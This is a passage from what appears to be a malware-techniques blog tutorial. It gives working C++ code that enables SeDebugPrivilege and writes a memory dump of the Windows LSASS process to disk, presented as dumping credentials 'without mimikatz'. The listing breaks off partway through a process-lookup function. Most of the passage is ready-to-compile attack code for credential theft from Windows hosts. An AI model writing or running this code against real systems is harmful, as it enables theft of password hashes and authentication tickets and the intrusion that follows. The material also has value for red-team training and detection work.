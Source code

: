 It is necessary to have `SeDebugPrivilege` privilege to dump `LSASS` as an attacker:     

```cpp
// set privilege
BOOL setPrivilege(LPCTSTR priv) {
  HANDLE token;
  TOKEN_PRIVILEGES tp;
  LUID luid;
  BOOL res = TRUE;

  if (!LookupPrivilegeValue(NULL, priv, &luid)) res = FALSE;

  tp.PrivilegeCount = 1;
  tp.Privileges[0].Luid = luid;
  tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

  if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &token)) res = FALSE;
  if (!AdjustTokenPrivileges(token, FALSE, &tp, sizeof(TOKEN_PRIVILEGES), (PTOKEN_PRIVILEGES)NULL, (PDWORD)NULL)) res = FALSE;
  printf(res ? "successfully enable %s :)\n" : "failed to enable %s :(\n", priv);
  return res;
}
```

Then, create dump:      

```cpp
// minidump lsass.exe
BOOL createMiniDump() {
  bool dumped = FALSE;
  int pid = findMyProc("lsass.exe");
  HANDLE ph = OpenProcess(PROCESS_VM_READ | PROCESS_QUERY_INFORMATION, 0, pid);
  HANDLE out = CreateFile((LPCTSTR)"c:\\temp\\lsass.dmp", GENERIC_ALL, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
  if (ph && out != INVALID_HANDLE_VALUE) {
    dumped = MiniDumpWriteDump(ph, pid, out, (MINIDUMP_TYPE)0x00000002, NULL, NULL, NULL);
    printf(dumped ? "successfully dumped to lsaas.dmp :)\n" : "failed to dump :(\n");
  } 
  return dumped; 
}
```

So, the full source code is looks like this `hack.cpp`:      

```cpp
/*
 * hack.cpp - Dump lsass without mimikatz. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/tutorial/2023/05/11/malware-tricks-28.html
*/
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <tlhelp32.h>
#include <dbghelp.h>
#pragma comment (lib, "dbghelp.lib")

int findMyProc(const char *procname) {

  HANDLE hSnapshot;
  PROCESSENTRY32 pe;
  int pid = 0;
  BOOL hResult;

  // snapshot of all processes in the system
  hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
```